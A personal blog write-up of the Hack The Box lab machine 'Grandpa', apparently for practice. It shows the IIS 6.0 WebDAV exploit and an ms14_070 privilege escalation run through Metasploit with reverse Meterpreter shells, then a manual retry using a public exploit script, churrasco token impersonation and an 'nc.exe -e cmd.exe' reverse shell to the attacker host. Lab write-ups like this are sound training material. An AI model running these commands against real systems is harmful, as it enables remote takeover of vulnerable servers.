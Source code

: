 ```yaml
---
layout: post
title:  "HTB: Grandpa"
date:   2021-03-14 21:00:00 +1100
category: hacking
---
```


## Grandpa
Grandpa was next after Irked; I went in blind.

## Ports
HTTP only.

## IIS 6.0
Nmap says:

{% highlight shell %}
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
{% endhighlight %}

A quick google and I decide to yeet metasploit at it:

{% highlight shell %}
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set rhosts 10.10.10.14
rhosts => 10.10.10.14
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set lhost 10.10.14.10
lhost => 10.10.14.10
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run

[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] Trying path length 3 to 60 ...
[*] Sending stage (175174 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.14.10:4444 -> 10.10.10.14:1032) at 2021-03-14 05:31:44 -0400

meterpreter > shell
[-] Failed to spawn shell with thread impersonation. Retrying without it.
Process 2132 created.
Channel 2 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
{% endhighlight %}

## Privesc
I run the local exploit suggester and get about 6 different potential options; none of them work. I google for kernel exploits for Server 2003 SP1 (this is what we've got), I find some more options and and try them; nada.

What I was doing wrong - and I was doing something wrong - was that I needed to migrate into a different process before I started. So once that was done, no more problems:

{% highlight shell %}
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > sessions 1
[*] Starting interaction with 1...

meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]                                                
 4     0     System                                                          
 272   4     smss.exe                                                        
 280   1080  cidaemon.exe                                                    
 320   1080  cidaemon.exe                                                    
 # etc                                    
 1408  396   vmtoolsd.exe                                                    
 1456  396   svchost.exe                                                     
 1600  396   svchost.exe                                                     
 1704  396   alg.exe                                                         
 1840  612   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1920  396   dllhost.exe                                                     
 2316  612   wmiprvse.exe                                                    
 2752  3180  rundll32.exe       x86   0                                      C:\WINDOWS\system32\rundll32.exe
 3180  1456  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 3628  612   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 3988  2752  cmd.exe            x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\cmd.exe
 4092  1080  cidaemon.exe                                                    

meterpreter > migrate 3628
[*] Migrating from 2752 to 3628...
[*] Migration completed successfully.
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > run

[*] Started reverse TCP handler on 10.10.14.10:1234 
[*] Storing the shellcode in memory...
[*] Triggering the vulnerability...
[*] Checking privileges after exploitation...
[+] Exploitation successful!
[*] Sending stage (175174 bytes) to 10.10.10.14
[*] Meterpreter session 2 opened (10.10.14.10:1234 -> 10.10.10.14:1040) at 2021-03-14 06:05:40 -0400

meterpreter > shell
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
{% endhighlight %}

I'm going to do this again tomorrow **without** Metasploit by following a walkthrough.


## Addendum
So I went back to this to try it without MSF. I looked at a couple of write-ups, but they used identical tooling. Foothold was via this [python](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell) script. The script contains a whole bunch of shellcode, so it's not really any clear what it does, so nothing really gained in terms of understanding compared to using Metasploit..

Anyway, it's invoked like so:

``
python shell.py 10.10.10.14 80 10.10.14.5 1234
``

And you catch the shell in a listener. Next, people used a 'token impersonation' attack for privesc with a binary called [churrasco](https://github.com/Re4son/Churrasco). It's copied to a directory that we have write access to (which we conveniently have at C:\wmpub), then executed. Copy it along with netcat using *smbserver*:

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/grandpa]
└─# python3 /usr/share/doc/python3-impacket/examples/smbserver.py share .   
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.14,1031)
[*] AUTHENTICATE_MESSAGE (\,GRANPA)
[*] User GRANPA\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] AUTHENTICATE_MESSAGE (HTB\GRANPA$,GRANPA)
[*] User GRANPA\GRANPA$ authenticated successfully
[*] GRANPA$::HTB:d62c92d82cb9dafc00000000000000000000000000000000:6521e6930e53d3e7c9bb0cbbcb53eb6a8d769dc217d66bbc:aaaaaaaaaaaaaaaa
# etc
{% endhighlight %}

Copy the files:

{% highlight shell %}
C:\wmpub>icacls C:\wmpub
icacls C:\wmpub
C:\wmpub BUILTIN\Administrators:(F)
         BUILTIN\Administrators:(I)(OI)(CI)(F)
         NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
         CREATOR OWNER:(I)(OI)(CI)(IO)(F)
         BUILTIN\Users:(I)(OI)(CI)(RX)
         BUILTIN\Users:(I)(CI)(AD)
         BUILTIN\Users:(I)(CI)(WD)

Successfully processed 1 files; Failed processing 0 files

C:\wmpub>copy \\10.10.14.5\share\nc.exe .
copy \\10.10.14.5\share\nc.exe .
        1 file(s) copied.

C:\wmpub>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of C:\wmpub

03/16/2021  10:59 AM    <DIR>          .
03/16/2021  10:59 AM    <DIR>          ..
03/16/2021  10:52 AM            59,392 nc.exe
04/12/2017  04:05 PM    <DIR>          wmiislog
               1 File(s)         59,392 bytes
               3 Dir(s)  18,093,953,024 bytes free

C:\wmpub>copy \\10.10.14.5\share\churrasco.exe c.exe
copy \\10.10.14.5\share\churrasco.exe c.exe
        1 file(s) copied.
{% endhighlight %}

And execute it; anything called after **-d** will be executed as system:

{% highlight shell %}
C:\wmpub>.\c.exe -d "C:\wmpub\nc.exe -e cmd.exe 10.10.14.5 1235"
.\c.exe -d "C:\wmpub\nc.exe -e cmd.exe 10.10.14.5 1235"
Program too big to fit in memory
{% endhighlight %}

Ahhhhh, WTF? This is the same as [0xdf](https://0xdf.gitlab.io/2020/05/28/htb-grandpa.html) did:

>C:\wmpub>.\c.exe -d "C:\wmpub\nc.exe -e cmd.exe 10.10.14.47 443"

But it worked for him, and not for me. Grrrr. Try this then:

``
C:\wmpub>.\c.exe -d "type C:\Users\Administrator\Desktop\root.txt"
``

>Program too big to fit in memory

Dunno why I bothered really.
